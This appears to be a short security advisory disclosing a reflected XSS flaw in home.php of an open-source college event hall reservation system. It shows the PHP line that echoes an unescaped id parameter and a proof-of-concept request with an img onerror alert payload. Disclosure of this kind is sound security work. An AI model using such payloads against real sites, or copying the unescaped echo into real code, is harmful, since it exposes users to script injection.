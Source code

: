 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS home.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /home.php

## Code
```php
$id=$_GET['id'];?>

 <h1 class="logo "><a href="home.php?id=<?php echo $id; ?>">Emisha</a></h1>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /home.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")> HTTP/1.1
Host: 127.0.0.1
```

## Screenshot

